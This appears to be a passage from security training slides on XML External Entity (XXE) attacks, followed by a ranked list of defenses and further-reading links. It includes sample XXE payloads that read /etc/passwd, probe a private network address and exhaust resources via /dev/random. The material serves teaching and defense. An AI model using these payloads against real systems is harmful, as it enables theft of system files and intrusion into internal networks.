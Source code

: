 Data Extraction:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

Network Intrusion:
```xml
<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
```

Denial of Service:
```xml
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
```

-- Notes --

Old XML processors include external files referenced from the XML.
When accepting XML, this could result in several different attacks:
* Data extraction by including a reference to sensitive files
* Network intrusion by probing private network URI's
* Denial of Service by including large / endless files or recursive references

--

## XML External Entities (XXE): defense
<hr />

In prioritized order
* Developer training
* JSON
  * Avoid serialization of sensitive data
* Upgrade XML Processors
  * Dependency checks
  * SOAP 1.2+
* Disable XML External entity & DTD processing
* Server-side whitelist-based input validation, filtering and sanitization
* XSD Validation on incoming XML / XSL
* SAST tools
* Virtual patching, API security gateways, WAFs

--

## XML External Entities (XXE): further reading
<hr />

* OWASP on [2017-A4 XML External Entities (XXE)](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_%28XXE%29)
* [Hacksplaining](https://www.hacksplaining.com/prevention/xml-external-entities) prevention
* [Acunetix](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)
